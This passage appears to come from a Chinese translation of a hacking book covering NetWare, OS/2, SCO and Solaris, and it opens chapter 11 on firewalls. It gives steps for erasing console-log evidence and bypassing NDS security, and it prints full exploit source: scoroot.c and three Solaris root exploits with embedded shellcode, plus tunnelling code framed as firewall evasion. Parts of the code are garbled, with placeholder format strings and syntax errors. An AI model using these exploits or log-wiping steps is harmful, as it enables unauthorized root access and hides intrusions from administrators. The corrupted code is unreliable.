- 3. 在控制台卸载 `CONLOG`。
- 4. 删除或编辑 `CONSOLE.LOG` 文件以消除痕迹证据。
- 5. 重新加载 `CONLOG`。
- 6. 检查 `CONSOLE.LOG` 文件以确保所有者没有改变。
- 7. 在 `SYS:ETC` 目录中运行 `PURGE` 以清除 `CONSOLE.LOG` 的旧版本。

## 文件和目录

- **查看隐藏文件。** 使用 `NDIR` 查看隐藏文件和目录：`NDIR * /S /H`。

- **绕过仅执行标志。** 如果文件被标记为仅执行，它仍然可以被打开。尝试使用能够读取可执行文件的程序打开该文件，并执行另存为（保存到另一个位置）。

- **编辑登录脚本。** 登录脚本存储在 `SYS:NETWARE` 中。与 NDS 中使用的二进制文件不同，这些文件完全可以通过使用 `EDIT.NLM` 进行编辑。在 `SYS:NETWARE` 中执行 `RCONSOLE` 目录扫描会发现扩展名如 `.000` 的文件，这些很可能就是登录脚本。例如，假设你发现了 `00021440.000`：

```
LOAD EDIT SYS:NETWARE\00021440.000
```

如果是登录脚本，你将能够编辑并保存它。这完全绕过了 NDS 安全机制，是其主要弱点。因此，你可以利用这一点授予用户额外的权限，从而导致多种妥协情况，包括对树中任何服务器文件系统的完全访问权限。

## OS/2

凭借出色的评分和客户反馈，令人费解的是为什么这个操作系统没有获得更大的主导地位。IBM 的 OS/2 ([www.4-ibm.com/software/os/warp](https://www.4-ibm.com/software/os/warp)) 直到 1992 年发布的 2.0 版本之前一直存在兼容性和稳定性问题。自从添加了新的面向对象的 GUI、稳定的 DOS 兼容性以及健壮的 Windows 软件兼容性以来，OS/2 的销售额一直在稳步增长。IBM 最近发布的第 4 版标配了消费者认为必需的所有功能。OS/2 系统文件夹包含了管理 PC 所需的所有工具，从文件夹模板到带有拖放字体和颜色的桌面方案。而且，连接配置就像公园散步一样简单，从互联网到文件/打印服务器再到对等网络（见图 10.19）。

## 漏洞

隧道技术

**概要：** 通过防火墙和/或代理的防御边界隧道攻击。


**漏洞状态：** 绕过安全边界进行未授权访问。

受影响版本：所有版本。

入侵示例：摘自 Os2tunnel/http.c。

### Os2tunnel/http.c

```c
#include <Inc Mods>
static inline ssize_t
http_method (int fd, Http_destination *dest,
             Http_method method, ssize_t length)
{
    char str[1024]; /* FIXME: possible buffer overflow */
    Http_request *request;
    ssize_t n;
    if (fd == -1)
    {
        log_error ("http_method: fd == -1");
        return -1;
    }
    if (dest->proxy_name == NULL)
        sprintf (str, "/index.html");
    else
        sprintf (str, "http://%s:%d/index.html", dest->host_name, dest->
                 host_port);
    request = http_create_request (method, str, 1, 1);
    if (request == NULL)
        return -1;
    sprintf (str, "%s:%d", dest->host_name, dest->host_port);
    http_add_header (&request->header, "Host", str);
    if (length >= 0)
    {
        sprintf (str, "%d", length);

        http_add_header (&request->header, "Content-Length", str);
    }
    http_add_header (&request->header, "Connection", "close");
    if (dest->proxy_authorization)
    {
        http_add_header (&request->header,
                         "Proxy-Authorization",
                         dest->proxy_authorization);
    }
    if (dest->user_agent)
    {
        http_add_header (&request->header,
                         "User-Agent",
                         dest->user_agent);
    }
    n = http_write_request (fd, request);
    http_destroy_request (request);
    return n;
}
ssize_t
http_get (int fd, Http_destination *dest)
{
    return http_method (fd, dest, HTTP_GET, -1);
}
ssize_t
http_put (int fd, Http_destination *dest, size_t length)
{
    return http_method (fd, dest, HTTP_PUT, (ssize_t)length);
}
ssize_t
http_post (int fd, Http_destination *dest, size_t length)
{
    return http_method (fd, dest, HTTP_POST, (ssize_t)length);
}
int
http_error_to_errno (int err)
{
    /* Error codes taken from RFC2068. */
    switch (err)
    {
    case -1: /* system error */
        return errno;
    case -200: /* OK */
    case -201: /* Created */
    case -202: /* Accepted */
    case -203: /* Non-Authoritative Information */
    case -204: /* No Content */
    case -205: /* Reset Content */
    case -206: /* Partial Content */
        return 0;

    case -400: /* Bad Request */
        log_error ("http_error_to_errno: 400 bad request");
        return EIO;
    case -401: /* Unauthorized */
        log_error ("http_error_to_errno: 401 unauthorized");
        return EACCES;
    case -403: /* Forbidden */
        log_error ("http_error_to_errno: 403 forbidden");
        return EACCES;
    case -404: /* Not Found */
        log_error ("http_error_to_errno: 404 not found");
        return ENOENT;
    case -411: /* Length Required */
        log_error ("http_error_to_errno: 411 length required");
        return EIO;
    case -413: /* Request Entity Too Large */
        log_error ("http_error_to_errno: 413 request entity too large");
        return EIO;
    case -505: /* HTTP Version Not Supported */
        log_error ("http_error_to_errno: 413 HTTP version not supported");
        return EIO;
    case -100: /* Continue */
```

591


```c
case -101: /* 切换协议 */
case -300: /* 多重选择 */
case -301: /* 永久移动 */
case -302: /* 临时移动 */
case -303: /* 查看其他位置 */
case -304: /* 未修改 */
case -305: /* 使用代理 */
case -402: /* 需要付款 */
case -405: /* 方法不允许 */
case -406: /* 不可接受 */
case -407: /* 需要代理身份验证 */
case -408: /* 请求超时 */
case -409: /* 冲突 */
case -410: /* 已移除 */
case -412: /* 前置条件失败 */
case -414: /* 请求 URI 过长 */
case -415: /* 不支持的媒体类型 */
case -500: /* 内部服务器错误 */
case -501: /* 未实现 */
case -502: /* 错误网关 */
case -503: /* 服务不可用 */
case -504: /* 网关超时 */
    log_error ("http_error_to_errno: HTTP error %d", err);
    return EIO;
    default:
    log_error ("http_error_to_errno: unknown error %d", err);
    return EIO;
}

static Http_method
http_string_to_method (const char *method, size_t n)
{
    if (strncmp (method, "GET", n) == 0)
        return HTTP_GET;
    if (strncmp (method, "PUT", n) == 0)
        return HTTP_PUT;
    if (strncmp (method, "POST", n) == 0)
        return HTTP_POST;
    if (strncmp (method, "OPTIONS", n) == 0)
        return HTTP_OPTIONS;
    if (strncmp (method, "HEAD", n) == 0)
        return HTTP_HEAD;
    if (strncmp (method, "DELETE", n) == 0)
        return HTTP_DELETE;
    if (strncmp (method, "TRACE", n) == 0)
        return HTTP_TRACE;
    return -1;
}

static const char *
http_method_to_string (Http_method method)
{
    switch (method)
    {
        case HTTP_GET: return "GET";
        case HTTP_PUT: return "PUT";
        case HTTP_POST: return "POST";
        case HTTP_OPTIONS: return "OPTIONS";
        case HTTP_HEAD: return "HEAD";
        case HTTP_DELETE: return "DELETE";
        case HTTP_TRACE: return "TRACE";
    }
    return "(unknown)";
}

static ssize_t
read_until (int fd, int ch, unsigned char **data)
{
    unsigned char *buf, *buf2;
    ssize_t n, len, buf_size;

    *data = NULL;
    buf_size = 100;
    buf = malloc (buf_size);
    if (buf == NULL)
    {
        log_error ("read_until: out of memory");
        return -1;
    }

    len = 0;
    while ((n = read_all (fd, buf + len, 1)) == 1)
    {
        if (buf[len++] == ch)
            break;

        if (len + 1 == buf_size)
        {
            buf_size *= 2;
            buf2 = realloc (buf, buf_size);
            if (buf2 == NULL)
            {
                log_error ("read_until: realloc failed");
                free (buf);
                return -1;
            }
            buf = buf2;
        }
    }

    if (n <= 0)
    {
        free (buf);
        if (n == 0)
            log_error ("read_until: closed");
        else
            log_error ("read_until: read error: %s", strerror (errno));
        return n;
    }

    /* 收缩到最小尺寸 + 1，以防有人想添加一个 NUL。
     */
    buf2 = realloc (buf, len + 1);
    if (buf2 == NULL)
    {
        log_error ("read_until: realloc: shrink failed"); /* 非致命错误 */
    }
    else
    {
        buf = buf2;
    }
    *data = buf;

    return len;
}

static inline Http_header *
http_alloc_header (const char *name, const char *value)
{
    Http_header *header;

    header = malloc (sizeof (Http_header));
    if (header == NULL)
        return NULL;

    header->name = header->value = NULL;
    header->name = strdup (name);
    header->value = strdup (value);

    if (header->name == NULL || header->value == NULL)
    {
        if (header->name != NULL)
            free ((char *)header->name);
        if (header->value != NULL)
            free ((char *)header->value);
        free (header);
        return NULL;
    }

    return header;
}

Http_header *
http_add_header (Http_header **header, const char *name, const char
    *value)
{
    Http_header *new_header;

    new_header = http_alloc_header (name, value);
    if (new_header == NULL)
        return NULL;

    new_header->next = NULL;
    while (*header)
        header = &(*header)->next;
    *header = new_header;

    return new_header;
}

static ssize_t
parse_header (int fd, Http_header **header)
{
    unsigned char buf[2];
    unsigned char *data;
    Http_header *h;
    size_t len;
    ssize_t n;

    *header = NULL;
    n = read_all (fd, buf, 2);
    if (n <= 0)
        return n;
    if (buf[0] == '\r' && buf[1] == '\n')
        return n;

    h = malloc (sizeof (Http_header));
    if (h == NULL)
    {
        log_error ("parse_header: malloc failed");
        return -1;
    }

    *header = h;
    h->name = NULL;
    h->value = NULL;

    n = read_until (fd, ':', &data);
    if (n <= 0)
        return n;

    data = realloc (data, n + 2);
    if (data == NULL)
    {
        log_error ("parse_header: realloc failed");
        return -1;
    }

    memmove (data + 2, data, n);
    memcpy (data, buf, 2);
    n += 2;
    data[n - 1] = 0;
    h->name = data;
    len = n;

    n = read_until (fd, '\r', &data);
    if (n <= 0)
        return n;
    data[n - 1] = 0;
    h->value = data;
    len += n;

    n = read_until (fd, '\n', &data);
    if (n <= 0)
        return n;
    free (data);
    if (n != 1)
    {
        log_error ("parse_header: invalid line ending");
        return -1;
    }

    len += n;
    log_verbose ("parse_header: %s:%s", h->name, h->value);

    n = parse_header (fd, &h->next);
    if (n <= 0)
        return n;
    len += n;
    return len;
}

static ssize_t
http_write_header (int fd, Http_header *header)
{
    ssize_t n = 0, m;

    if (header == NULL)
        return write_all (fd, "\r\n", 2);

    m = write_all (fd, (void *)header->name, strlen (header->name));
    if (m == -1)
    {
        return -1;
    }
    n += m;

    m = write_all (fd, ": ", 2);
    if (m == -1)
    {
        return -1;
    }
    n += m;

    m = write_all (fd, (void *)header->value, strlen (header->value));
    if (m == -1)
    {
        return -1;
    }
    n += m;

    m = write_all (fd, "\r\n", 2);
    if (m == -1)
    {
        return -1;
    }
    n += m;

    m = http_write_header (fd, header->next);
    if (m == -1)
    {
        return -1;
    }
    n += m;
    return n;
}

static void
http_destroy_header (Http_header *header)
{
    if (header == NULL)
        return;

    http_destroy_header (header->next);

    if (header->name)
        free ((char *)header->name);
    if (header->value)
        free ((char *)header->value);
    free (header);
}

static inline Http_response *
http_allocate_response (const char *status_message)
{
    Http_response *response;

    response = malloc (sizeof (Http_response));
    if (response == NULL)
        return NULL;

    response->status_message = strdup (status_message);
    if (response->status_message == NULL)
    {
        free (response);
        return NULL;
    }

    return response;
}

Http_response *
http_create_response (int major_version,
                      int minor_version,
                      int status_code,
                      const char *status_message)
{
    Http_response *response;

    response = http_allocate_response (status_message);
    if (response == NULL)
        return NULL;

    response->major_version = major_version;
    response->minor_version = minor_version;
    response->status_code = status_code;
    response->header = NULL;

    return response;
}

ssize_t
http_parse_response (int fd, Http_response **response_)
{
    Http_response *response;
    unsigned char *data;
    size_t len;
    ssize_t n;

    *response_ = NULL;
    response = malloc (sizeof (Http_response));
    if (response == NULL)
    {
        log_error ("http_parse_response: out of memory");
        return -1;
    }

    response->major_version = -1;
    response->minor_version = -1;
    response->status_code = -1;
    response->status_message = NULL;
    response->header = NULL;

    n = read_until (fd, ' ', &data);
    if (n <= 0)
    {
        free (response);
        return n;
    }
    else if (n != 5 || memcmp (data, "HTTP", 4) != 0)
    {
        log_error ("http_parse_response: expected \"HTTP\"");
        free (data);
        free (response);
        return -1;
    }

    free (data);
    len = n;

    n = read_until (fd, '.', &data);
    if (n <= 0)
    {
        free (response);
        return n;
    }
    data[n - 1] = 0;
    response->major_version = atoi (data);
    log_verbose ("http_parse_response: major version = %d",
        response->major_version);
    free (data);
    len += n;

    n = read_until (fd, ' ', &data);
    if (n <= 0)
    {
        free (response);
        return n;
    }
    data[n - 1] = 0;
    response->minor_version = atoi (data);
    log_verbose ("http_parse_response: minor version = %d",
        response->minor_version);
    free (data);
    len += n;

    n = read_until (fd, ' ', &data);
    if (n <= 0)
    {
        free (response);
        return n;
    }
    data[n - 1] = 0;
    response->status_code = atoi (data);
    log_verbose ("http_parse_response: status code = %d",
        response->status_code);
    free (data);
    len += n;

    n = read_until (fd, '\r', &data);
    if (n <= 0)
    {
        free (response);
        return n;
    }
    data[n - 1] = 0;
```
598


## response->status_message = data;

log_verbose ("http_parse_response: status message = \"%s\"",
 response->status_message);
len += n;
n = read_until (fd, '\n', &data);
if (n <= 0)
{
http_destroy_response (response);
return n;
}
free (data);
if (n != 1)
{
log_error ("http_parse_request: invalid line ending");
http_destroy_response (response);
return -1;
}
len += n;
n = parse_header (fd, &response->header);
if (n <= 0)
{
http_destroy_response (response);
return n;
}
len += n;
*response_ = response;
return len;
}

void
http_destroy_response (Http_response *response)
{
if (response->status_message)
free ((char *)response->status_message);
http_destroy_header (response->header);
free (response);
}

static inline Http_request *
http_allocate_request (const char *uri)
{
Http_request *request;
request = malloc (sizeof (Http_request));
if (request == NULL)
return NULL;
request->uri = strdup (uri);
if (request->uri == NULL)
{
free (request);
return NULL;
}
return request;
}

Http_request *
http_create_request (Http_method method,
                   const char *uri,
                   int major_version,
                   int minor_version)
{
  Http_request *request;
  request = http_allocate_request (uri);

  if (request == NULL)
    return NULL;
  request->method = method;
  request->major_version = major_version;
  request->minor_version = minor_version;
  request->header = NULL;
  return request;
}

ssize_t
http_parse_request (int fd, Http_request **request_)
{
  Http_request *request;
  unsigned char *data;
  size_t len;
  ssize_t n;
  *request_ = NULL;
  request = malloc (sizeof (Http_request));
  if (request == NULL)
    {
      log_error ("http_parse_request: out of memory");
      return -1;
    }
  request->method = -1;
  request->uri = NULL;
  request->major_version = -1;
  request->minor_version = -1;
  request->header = NULL;
  n = read_until (fd, ' ', &data);
  if (n <= 0)
    {
      free (request);
      return n;
    }
  request->method = http_string_to_method (data, n - 1);
  if (request->method == -1)
    {
      log_error ("http_parse_request: expected an HTTP method");
      free (data);
      free (request);
      return -1;
    }
  data[n - 1] = 0;
  log_verbose ("http_parse_request: method = \"%s\"", data);
  free (data);
  len = n;
  n = read_until (fd, ' ', &data);
if (n <= 0) {
free (request);
return n;
}
data[n - 1] = 0;
request->uri = data;
len += n;
log_verbose ("http_parse_request: uri = \"%s\"", request->uri);
n = read_until (fd, '/', &data);
if (n <= 0) {
http_destroy_request (request);
return n;
}
else if (n != 5 || memcmp (data, "HTTP", 4) != 0) {
log_error ("http_parse_request: expected \"HTTP\\"\);
free (data);
http_destroy_request (request);
return -1;
}
free (data);
len = n;
n = read_until (fd, '.', &data);
if (n <= 0) {
http_destroy_request (request);
return n;
}
data[n - 1] = 0;
request->major_version = atoi (data);
log_verbose ("http_parse_request: major version = %d", request->major_version);
free (data);
len += n;
n = read_until (fd, 'r', &data);
if (n <= 0) {
http_destroy_request (request);
return n;
}
data[n - 1] = 0;
request->minor_version = atoi (data);
log_verbose ("http_parse_request: minor version = %d", request->minor_version);
free (data);
len += n;
n = read_until (fd, '\n', &data);
if (n <= 0) {
http_destroy_request (request);
        return n;
    }
    free (data);
    if (n != 1)
      {
        log_error ("http_parse_request: invalid line ending");
        http_destroy_request (request);
        return -1;
      }

    len += n;
    n = parse_header (fd, &request->header);
    if (n <= 0)
      {
        http_destroy_request (request);
        return n;
      }
    len += n;
    *request_ = request;
    return len;
}

ssize_t
http_write_request (int fd, Http_request *request)
{
  char str[1024]; /* FIXME: buffer overflow */
  ssize_t n = 0;
  size_t m;
  m = sprintf (str, "$$ $$ HTTP/%d.%d\r\n",
               http_method_to_string (request->method),
               request->major_version,
               request->minor_version);
  m = write_all (fd, str, m);
  log_verbose ("http_write_request: $$", str);
  if (m == -1)
    {
      log_error ("http_write_request: write error: $$", strerror
                 (errno));
      return -1;
    }
  n += m;

  m = http_write_header (fd, request->header);
  if (m == -1)
    {
      return -1;
    }
  n += m;
  return n;
}

void
http_destroy_request (Http_request *request)
{
  if (request->uri)
free ((char *)request->uri);
http_destroy_header (request->header);
free (request);
}

static Http_header *
http_header_find (Http_header *header, const char *name)
{
  if (header == NULL)
    return NULL;
  if (strcmp (header->name, name) == 0)
    return header;
  return http_header_find (header->next, name);
}

const char *
http_header_get (Http_header *header, const char *name)
{
  Http_header *h;

  h = http_header_find (header, name);
  if (h == NULL)
    return NULL;
  return h->value;
}

#ifdef 0
void
http_header_set (Http_header **header, const char *name, const char
	*value)
{
  Http_header *h;
  size_t n;
  char *v;
  n = strlen (value);
  v = malloc (n + 1);
  if (v == NULL)
    fail;
  memcpy (v, value, n + 1);
  h = http_header_find (*header, name);
  if (h == NULL)
    {
      Http_header *h2;
      h2 = malloc (sizeof (Http_header));
      if (h2 == NULL)
        fail;
      n = strlen (name);
      h2->name = malloc (strlen (name) + 1);

      if (h2->name == NULL)
        fail;
      memcpy (h2->name, name, n + 1);
      h2->value = v;
      h2->next = *header;
      *header = h2;
    }
  else
{
	free (h->value);
	h->value = v;
}
}
#endif

## SCO

作为 UNIX 的主要供应商之一，SCO OpenServer 一直是全球中小企业有效的操作系统平台。新集成的电子邮件和互联网服务改进使 SCO 用户群得以在这一技术演进中保持其地位。凭借出色的图形用户界面（如图 10.20 所示）和用户友好的配置模块，SCO 为关键业务应用程序和开发提供了强大的解决方案。


## 漏洞

- **POP 根访问权限**
  - **概要：** SCO POP 服务器的远程根权限安全漏洞。
  - **攻击状态：** 未授权访问。
  - **易受攻击系统：** SCO OpenServer 5x。
  - **利用工具：** scoroot.c。

```c
scoroot.c

#include	<stdio.h>
#include	<stdlib.h>
#include		<sys/time.h>
#include		<sys/types.h>
#include		<unistd.h>
#include		<sys/socket.h>
#include		<netinet/in.h>
#include		<netdb.h>
#include		<sys/errno.h>

char  *shell=
"\xeb\x32\x5e\x31\xdb\x89\x5e\x07\x89\x5e\x12\x89\x5e\x17"
"\x88\x5e\x1c\x8d\x16\x89\x56\x0e\x31\xc0\xb0\x3b\x8d\x7e"
"\x12\x89\xf9\x89\xf9\xbf\x10\x10\x10\x10\x29\x7e\xf5\x89"
"\xcf\xeb\x01\xff\x63\x61\x62\x62\xeb\x1b\xe8\xc9\xff\xff"
"\xff/\bin/sh\xaa\xaa\xaa\xaa\xff\xff\xff\xbb\xbb\xbb\xbb"
"\xcc\xcc\xcc\xcc\x9a\xaa\xaa\xaa\xaa\x07\xaa";

#define ADDR 0x80474b4
#define OFFSET 0
#define BUFLEN 1200

char	buf[BUFLEN];
int	offset=OFFSET;
int	nbytes;
int	sock;
struct sockaddr_in sa;
struct hostent *hp;
short a;
void main (int argc, char *argv[]) {
	int i;
	if (argc<2) {
		printf ("Usage: %s <IP | HOSTNAME> [offset]\n", argv[0]);
		printf ("Default offset is 0. It works against SCO OpenServer 5.0.0\n");
		exit (0);
	}
	if (argc>2)
		offset=atoi (argv[2]);
	memset (buf,0x90,BUFLEN);
	memcpy (buf+800, shell, strlen (shell));
	for (i=901;i<BUFLEN-4;i+=4)
		*(int *) &buf[i]=ADDR+offset;
	buf[BUFLEN]= '\n';
	if ((hp=(struct hostent *) gethostname (argv[1]))==NULL) {
		perror ("gethostname()");
		exit (0);
	}
	if ((sock=socket (AF_INET, SOCK_STREAM, IPPROTO_TCP))<0) {
		perror ("socket()");
		exit (0);
	}

	sa.sin_family=AF_INET;
	sa.sin_port=htons(110);
	memcpy((char *)&sa.sin_addr, (char *)hp->h_addr, hp->h_length);
	if(connect(sock, (struct sockaddr *)&sa,sizeof(sa))!=0) {
		perror("connect");
		exit(0);
	}
	printf("CONNECTED TO %s... SENDING DATA\n", argv[1]);
	fflush(stdout);
	write(sock, buf, strlen(buf));
	while(1) {
		fd_set input;

		FD_SET(0,&input);
		FD_SET(sock,&input);
		if((select(sock+1,&input, NULL,NULL,NULL))<0) {
			if(errno==EINTR)  continue;
			printf("CONNECTION CLOSED... \n");
			fflush(stdout);
			exit(1);
		}
		if(FD_ISSET(sock,&input)) {
			nbytes=read(sock,buf,BUFLEN);
			for(i=0;i<nbytes;i++) {
				*(char *)&a=buf[i];
				if (  (!a!=10)&&(!a >126)  ||  (a<32)  ){
					buf[i]=' ';
				}
				write(1, buf, nbytes);
			}
			if(FD_ISSET(0, &input))
			write(sock, buf, read(0, buf, BUFLEN));
		}
	}
}
```


图 10.21 使用 Solaris 定制分区。

## Solaris

Sun Microsystems 的 Solaris（www.sun.com/solaris）8 版 UNIX 操作系统是业界首个也是最为普及的、面向 Intel 和 Sparc 系统的互联网级别操作系统环境。自发布以来，Sun 公司在《*PC Magazine*》和《*InfoWorld*》等出版物中均获得了积极的评价。从全行业来看，有八个特性可用于评估 Solaris 8：高级安全性、可用性、可扩展性、互操作性、易用性、多平台连接、全面的开源开发支持，最后但同样重要的是，它是免费的，可通过下载 www.sun.com/software/solaris/source 获取。Solaris 8 还可以保留现有的操作系统和数据（见图 10.21）。

## 责任/风险

### 根访问权限

**概要：** 各种远程根安全漏洞。

**攻击状态：** 未授权访问。

**受影响版本：** Solaris 8。

**漏洞利用代码：** *solroot1.c*。

```c
solroot1.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BUFLEN 500
#define NOP 0x90

char shell[] =
"exec1(\"/usr/openwin/bin/kcms_configure\", \"kcms_configure\", \"_p\", buf, \"foofoo\", NULL);\n"
"printf(\"exec failed!\\n\");\n"
"return;\n"
"execve(argv[0], argv, environ);\n"
"exit(0);";
char buf[BUFLEN];
unsigned long int nop, esp;
long int offset = 0;
unsigned long int
get_esp()
{
	__asm__("movl %esp, %eax");
}
void
main (int argc, char *argv[]) 
{
	int i;
	if (argc > 1)
		offset = strtol(argv[1], NULL, 0);
	if (argc > 2)
		nop = strtoul(argv[2], NULL, 0);
	else
		nop = 285;
	esp = get_esp();
	memset(buf, NOP, BUFLEN);
	memcpy(buf+nop, shell, strlen(shell));
	for (i = nop+strlen(shell); i < BUFLEN-4; i += 4)
	*({int *}) &buf[i] = esp+offset;
	printf("jumping to 0x%08x (0x%08x offset %d) [nop %d]\n",
	esp+offset, esp, offset, nop);
	exec1("/usr/openwin/bin/kcms_configure", "kcms_configure", "_p", buf, "foofoo", NULL);
	printf("exec failed!\n");
	return;
}
```

## solroot2.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
#define BUF_LENGTH 364
#define EXTRA 400
#define STACK_OFFSET 704
#define SPARC_NOP 0xa61cc013
u_char sparc_shellcode[] =
"\n\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xda\xdc\xae\x15\xe3\x68"
"\n\x90\x0b\x80\x0e\x92\x03\xa0\x0c\x94\x1a\x80\x0a\x9c\x03\xa0\x14"
"\n\xec\x3b\xbf\xec\xc0\x23\xbf\xf4\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc"
"\n\x82\x10\x20\x3b\x91\xd0\x20\x08\x90\x1b\xc0\x0f\x82\x10\x20\x01"
"\n\x91\xd0\x20\x08";
u_long get_sp(void)
{
__asm__("mov %sp, %i0 \n");
}
void main(int argc, char *argv[])
{
char buf[BUF_LENGTH + EXTRA + 8];
long targ_addr;
u_long *long_p;
u_char *char_p;
int i, code_length = strlen(sparc_shellcode), dso=0;
if(argc > 1) dso=atoi(argv[1]);
long_p=(u_long *) buf;
targ_addr = get_sp() - STACK_OFFSET - dso;
for (i = 0; i < (BUF_LENGTH - code_length) / sizeof(u_long); i++)
*long_p++ = SPARC_NOP;
char_p = (u_char *) long_p;
for (i = 0; i < code_length; i++)
*char_p++ = sparc_shellcode[i];
long_p = (u_long *) char_p;
for (i = 0; i < EXTRA / sizeof(u_long); i++) *long_p++ =targ_addr;
printf("Jumping to address 0x%lx B[%d] E[%d] SO[%d]\n",
targ_addr,BUF_LENGTH,EXTRA,STACK_OFFSET);
execl("/bin/fdformat", "fdformat", & buf[i], (char *) 0);
}
```

## solroot3.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
#define BUF_LENGTH 264
#define EXTRA 36
#define STACK_OFFSET -56
#define SPARC_NOP 0xa61cc013
u_char sparc_shellcode[] =
"\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xda\xdc\xae\x15\xe3\x68\n"
"\x90\x0b\x80\x0e\x92\x03\xaa\x0c\x94\x1a\x80\x0a\x9c\x03\xaa\x14\n"
"\xec\x3b\xfb\xec\xc0\x23\xfb\xf4\xdc\x23\xfb\xf8\xc0\x23\xfc\n"
"\x82\x10\x20\x3b\x91\xd0\x20\x08\x90\x1b\xc0\x0f\x82\x10\x20\x01\n"
"\x91\xd0\x20\x08";
u_long get_sp(void)
{
__asm__("mov %sp,%i0 \n");
}

void main(int argc, char *argv[])
{
char buf[BUF_LENGTH + EXTRA + 8];
long targ_addr;
u_long *long_p;
u_char *char_p;
int i, code_length = strlen(sparc_shellcode),dso=0;
if (argc > 1) dso=atoi(argv[1]);
long_p =(u_long *) buf ;
targ_addr = get_sp() - STACK_OFFSET - dso;
for (i = 0; i < (BUF_LENGTH - code_length) / sizeof(u_long); i++)
*long_p++ = SPARC_NOP;
char_p = (u_char *) long_p;
for (i = 0; i < code_length; i++)
*char_p++ = sparc_shellcode[i];
long_p = (u_long *) char_p;
for (i = 0; i < EXTRA / sizeof(u_long); i++) *long_p++ =targ_addr;
printf("Jumping to address 0x%lx B[%d] E[%d] SO[%d] \n",
targ_addr,BUF_LENGTH,EXTRA,STACK_OFFSET);
execl("/bin/fdformat", "fdformat", &buf[0], (char *) 0 );
perror ("execl_failed");
}
```

## 结论

在本章中，我们讨论了对各种知名操作系统进行的数十种秘密渗透黑客攻击。我们了解到，黑客可能会获得目标系统的控制权，或者通过诸如破坏硬盘、烧毁显示器、删除文件以及阻塞系统处理器等战术造成破坏。不幸的是，黑客攻击不仅仅局限于系统操作守护进程——请跟随我进入下一章，我们将讨论通过代理和防火墙进行地下渗透。

## 第 11 章

## 代理和防火墙

本章探索了周边保护机制（特别是代理和防火墙）中常见的地下安全漏洞秘密。回顾一下，代理是一个充当用户 Web 浏览器与互联网上 Web 服务器之间中介的计算机程序。当此软件安装在服务器上时，代理被视为“网关”，将用户的内部网络与外部隔开；主要地，它作为一种“防火墙”类型控制应用层，过滤所有传入数据包，并保护网络免受未授权访问。相应地，可靠的防火墙软件通过强制实施安全策略，利用状态检查过滤器，交替阻止或允许流量进入内部网络数据，从而控制对网络的访问。

## 互联网网关

为了演示本章所包含的信息，我们将讨论与这些特定产品相关的漏洞：BorderWare、Firewall-1、Gauntlet、NetScreen、PIX、Raptor 和 WinGate。

## BorderWare

BorderWare（www.borderware.com）运行在标准 Intel 平台上，使用三个周边防御软件模块进行全面网络保护。这些模块提供数据包过滤以及电路层和应用层网关监控。BorderWare 防火墙的其他功能包括服务器到服务器以及客户端到服务器的 VPN 访问、URL 和网站过滤，以及外联网和电子商务应用安全。BorderWare 防火墙控制台虽然有些繁琐，但提供了方便菜单驱动的管理访问以管理 BorderWare 模块。默认防火墙配置禁止从外部接口到受保护网络的所有直接连接。因此，必须独立配置远程访问组件。BorderWare 不提供命令行管理界面。

### 责任/风险

#### 隧道技术

**概要：** 使用隐蔽扫描和/或变形的握手技术，远程攻击者可以检测 ACK 隧道守护软件。

**攻击状态：** 对目标系统的未授权远程控制。

**受影响版本：** 所有版本，具体取决于配置。

**漏洞利用代码：** 如前几章所述，TCP 在 IP 之上建立虚拟连接。当发送方转发 SYN 且接收方以 SYN/ACK 响应时，会话即建立。常见的数据包过滤防火墙假设会话总是以 SYN 段开始。因此，它们对所有 SYN 段应用策略。通常，制造商开发防火墙时将这些规则应用于 SYN 而非 ACK，因为标准会话可能包含数千或数百万个 ACK 段，而只包含一个 SYN。这减少了整体的防火墙工作量，并有助于降低巨大服务器需求的成本。在此类场景中，隧道技术是远程攻击的首选漏洞利用方式。通过一些社会工程手段和电子邮件垃圾信息，黑客可以根据检测到的目标防火墙配置，安装定制的隧道，例如 *Tunnel.c*。

### Tunnel.c

```c
#define UDP
#undef TCP
#define BUFSIZE 4096
void selectloop(int netfd, int tapfd);
void usage(void);
char buffer[BUFSIZE];
main(int ac, char *av[]) {
    int destport;
    struct sockaddr_in destaddr;
    struct hostent *ht;
    int sock;
    int daemon;
    int netfd;
    int tapfd;
    if(ac != 3)
        usage();
    if((destport = atoi(av[2])) == 0)
        usage();
    if(av[1][0] == '-')
        daemon = 1;
    else
        daemon = 0;
    if(!daemon) {
        if((ht = gethostbyname(av[1])) == NULL) {
            switch(h_errno) {
                case HOST_NOT_FOUND:
                    printf("%s: Unknown host\n", av[2]);
                    break;
                case NO_ADDRESS:
                    printf("%s: No IP address for hostname\n", av[2]);
                    break;
                case NO_RECOVERY:
                    printf("%s: DNS Error\n", av[2]);
                    break;
                case TRY_AGAIN:
                    printf("%s: Try again (DNS Fuckup)\n", av[2]);
                    break;
                default:
                    printf("%s: Unknown DNS error\n", av[2]);
            }
            exit(0);
        }
        destaddr.sin_port = htons(destport);
        destaddr.sin_family = AF_INET;
        memcpy(&destaddr.sin_addr, ht->h_addr, ht->h_length);
    }
    #ifndef TCP
```


```c
sock = socket(AF_INET, SOCK_STREAM, 0);
#elif UDP
sock = socket(AF_INET, SOCK_DGRAM, 0);
#endif

if (sock == -1) {
    perror("socket");
    exit(0);
}
printf("Opening network socket.\n");
if (!daemon) {
    if (connect(sock, &destaddr, sizeof(struct sockaddr_in)) == -1) {
        perror("connect");
        exit(0);
    }
    netfd = sock;
} else {
    struct sockaddr_in listenaddr;
#if UDP
    struct sockaddr_in remote;
#endif
    int socklen;

    listenaddr.sin_port = htons(destport);
    listenaddr.sin_family = AF_INET;
    listenaddr.sin_addr.s_addr = inet_addr("0.0.0.0");
    if (bind(sock, &listenaddr, sizeof(struct sockaddr_in)) == -1) {
        perror("bind");
        exit(0);
    }
    socklen = sizeof(struct sockaddr_in);
#if defined TCP
    if (listen(sock, 1) == -1) {
        perror("listen");
        exit(0);
    }
    printf("Waiting for TCP connection... \n");
    if ((netfd = accept(sock, &listenaddr, &socklen)) == -1) {
        perror("accept");
        exit(0);
    }
}
#else /* UDP */
    netfd = sock;
    recvfrom(netfd, buffer, BUFSIZE, MSG_PEEK, &remote, &socklen);
    connect(netfd, &remote, socklen);
